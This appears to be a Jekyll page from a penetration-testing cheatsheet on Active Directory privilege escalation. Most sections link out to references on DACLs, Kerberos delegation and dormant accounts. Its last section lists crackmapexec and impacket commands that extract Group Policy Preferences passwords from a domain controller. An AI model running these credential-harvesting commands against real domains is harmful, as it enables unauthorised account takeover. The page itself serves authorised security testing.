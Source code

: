 ```yaml
---
layout: post
title: TA0007 Active Directory - Privilege Escalation
category: pen
parent: cheatsheets
modified_date: 2023-07-04
permalink: /pen/ad/privesc
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [delegation](#delegation)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='delegation'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

* Queries:
```powershell

pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


## <a name='shoot-gpo'></a>shoot-gpo
```bash
# cme
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin
# impacket
Get-GPPPassword.py $zz
```